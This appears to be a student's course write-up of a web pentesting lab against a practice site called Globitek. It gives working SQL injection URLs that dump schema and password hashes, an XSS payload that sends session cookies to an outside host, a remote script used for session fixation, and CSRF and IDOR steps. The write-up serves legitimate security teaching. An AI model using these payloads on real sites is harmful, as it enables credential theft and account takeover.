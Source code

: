 # Project 8 - Pentesting Live Targets

Time spent: **51** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)<br />  
    ![GIF Walkthrough](./img/B1.gif)<br />  
    Steps to recreate:
- Go to the salespearson page https://104.198.208.81/blue/public/salesperson.php?id=1
- Replace the id parameter with a single quote ```'```.<br />
Example: ```https://104.198.208.81/blue/public/salesperson.php?id='```
- After the quote type url encoded SQL command.<br />
Example: ```https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+```
- You can interate through the records by changing the ```LIMIT``` and ```OFFSET``` values
- Some of the example commands:<br />```https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Cdatabase()+--+
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ctable_name+FROM+information_schema.tables+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ccolumn_name+FROM+information_schema.columns+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+```

- Data collected:
    - Database: globitek_blue
    - Tables:
        - users
        - territories
        - states
        - salespeople_territories
        - salespeople
        - failed_logins
        - countries
        - feedback
    - Columns
        - id
        - name
        - code
        - username
        - count
        - last_attempt
        - email
        - feedback
        - created_at
        - first_name
        - last_name
        - phone
        - territory_id
        - salesperson_id
        - country_id
        - state_id
        - position
        - hashed_password

Vulnerability #2: Session Hijacking/Fixation<br />  
    ![GIF Walkthrough](./img/B2short.gif)<br />  
    Steps to recreate:
- When logged in as an admin go to "Countries, States, & Territories".
- Click on "Show", doesn't matter which country.
- Click on "Add a State".
- Enter values for "Name" and "Code" and click create.
- Click on "Add a Territory".
- Ender a value for "Name".
- In the filed "Position" type:
  ```html
        <script src="https://bit.ly/2z1UCVh"></script>
  ```  
  https://bit.ly/2z1UCVh is a shortened link for a <a href="./js_scripts/Untitled-8.js">js script</a> hosted on GoogeDrive
- Sign in again to the website as an admin
- Now the owner on PHPSESSID hardcoded in js script is logged into the website as an admin  
This is possible because new PHPSESSID is not generated when a used logs into website



## Green

Vulnerability #1: Username Enumeration<br />  
    ![GIF Walkthrough](./img/G2.gif)<br />  
    Steps to recreate:
- On the Log In page try to bruteforce diffent usernames.
- The usernames tha exist in the database will get the message "Log in was unsuccessful" in bald.  
The error message is highlited in bald because a different CSS class is assigned to the error message for usernames that exit in the database.


Vulnerability #2: Cross-Site Scripting (XSS)<br />  
    ![GIF Walkthrough](./img/G1.gif)<br />  
    Steps to recreate:
- Go to the Contact page.
- In the text area type the following script 
  ```html
    <script>var node = document.createElement('img');
    node.src = "http://192.168.1.2:3000?cookie="+document.cookie;
    document.getElementById("main-content").appendChild(node);</script>
  ```
- Submit the form
- When admin checks the feeedback ```PHPSESSID``` will be sent to the http://192.168.1.2:3000 address as a GET parameter


## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)<br />  
    ![GIF Walkthrough](./img/R1.gif)<br />  
    Steps to recreate:
- Go to the "Find a Salesperson" page.
- Click on one of the salespersons page.
- Increment the number at the end of the URL.

Vulnerability #2: Cross-Site Request Forgery (CSRF)<br />  
    ![GIF Walkthrough](./img/R2_2.gif)<br />  
    Steps to recreate:
- When logged in as an admin go to http://artemskit.github.io .  
See the code for the page <a href="./html/index.html">here</a>
- A new user will be created with the username "johnnybravo".
- This is possible because /red/public/staff/users/new.php does not check "csrf_token" in the new user creation form


## Bonus Objective 1:
### Build on Objective #3 (SQL Injection). Experiment to see what other kinds of information you can get the database to reveal.
- Collected information about database schema and password hashes as demonstrated in Blue Vulnerability #1: SQL Injection (SQLi)

## Bonus Objective 2:
### Build on Objective #4 (Cross-Site Scripting). Experiment to see if you can use XSS to: a) direct the user to a new URL, b) read cookie data, c) set cookie data.
- Read the cookie data as demonstrated in Green Vulnerability #2: Cross-Site Scripting (XSS)
- Can't demonstrate redirect because the Green target page "Feedback" already redirects to another page.  
Redirects are done through
```javascript
    document.location = "URL"
```
- Set cookie <br />  
![GIF Walkthrough](./img/Bonus_set_cookie.gif)<br />



## Notes

Any user can be deleted, which creates a situation where noone can log into the website.  
Any user can use XSS to redirect away from the "Feedback" page, which creates a situation where noone can use this page.
